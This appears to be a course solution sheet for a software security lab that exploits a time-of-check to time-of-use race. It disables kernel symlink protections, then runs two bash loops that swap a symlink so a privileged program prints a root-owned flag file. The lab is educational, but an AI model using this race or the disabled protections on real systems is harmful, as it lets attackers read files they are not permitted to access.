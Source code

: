# Solutions: Software Security I



## Exercise 1: Time-of-check to Time-of-use (TOCTOU)

First, generate the `flag.txt` file that contains the string "flag{success!}" and change permissions as follows:
``` 
chmod go-rw flag.txt
sudo chown root:root flag.txt 
```
Also change the following:
``` 
sudo sysctl -w fs.protected_regular=0
sudo sysctl -w fs.protected_symlinks=0
```

As hinted in the exercises, the idea is to use a symbolic link and change the
target of the link between the calls to `access` and `open`.
We want to achieve the following sequence of events:

1. We create a symbolic link name `target.txt` to a file `dummy_file.txt` that
   we can read.
2. We run `./toctou target.txt`.
3. The `access` check will be successful.
4. We change the link so that `target.txt` now points to `flag.txt` instead.
5. `toctou` follows the link and prints the content of `flag.txt`.

Since it is very unlikely to get the timing right, if we change the link
manually, we write two scripts try this automatically over and over again.

The following loop changes the destination of the link `target.txt` from
`dummy_file.txt` to `flag.txt` and back (`-s` creates a symbolic link and `-f`
overwrites an existing file):
```bash
while :; do
    ln -sf dummy_file.txt target.txt
    ln -sf flag.txt target.txt
done
```
In parallel we run a second loop where we execute `toctou` with `target.txt` as
argument (`2> /dev/null` removes all error messages from the output, and `|
grep flag` filters the output for lines containing the string "flag").
```bash
while :; do
    ./toctou target.txt
done 2> /dev/null | grep flag
```
When both loops are run in parallel (e.g., in two different terminals), the
second should start printing the contents of `flag.txt`:
```
flag{success!}
flag{success!}
flag{success!}
[...]
```
